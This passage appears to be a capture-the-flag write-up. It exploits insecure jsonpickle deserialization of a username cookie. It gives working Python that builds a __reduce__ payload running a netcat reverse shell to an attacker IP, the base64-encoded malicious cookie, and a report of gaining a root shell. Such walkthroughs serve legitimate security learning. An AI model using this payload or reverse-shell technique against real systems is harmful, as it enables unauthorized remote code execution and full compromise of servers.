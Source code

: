 We can see that it takes the cookie and see the username from it. let's search for jsonpickle exploit.

```
import base64
import jsonpickle
import os

class RCE:
        def __reduce__(self):
                return os.system, ("nc -c /bin/bash 192.168.0.101 1337",)

malware_obj = RCE()
serialized_malware_obj = jsonpickle.encode(malware_obj)
serialized_malware_obj = serialized_malware_obj.encode('ascii')
b64_malware_obj = base64.b64encode(serialized_malware_obj)
b64_malware_obj

print(b64_malware_obj)
```
create a malicious json cookie using python.

```
eyJweS9yZWR1Y2UiOiBbeyJweS9mdW5jdGlvbiI6ICJwb3NpeC5zeXN0ZW0ifSwgeyJweS90dXBsZSI6IFsibmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xMDEgMTMzNyJdfV19
```

![image](https://user-images.githubusercontent.com/87468669/220004117-ca15d540-36be-4326-ac81-1618d23cd228.png)

replace the username cookie value with our malicious value and boom we got a shell as `root`

![image](https://user-images.githubusercontent.com/87468669/220004513-ee02d2dd-55cc-41d0-ab2d-11ca69ca1854.png)

and we are through.

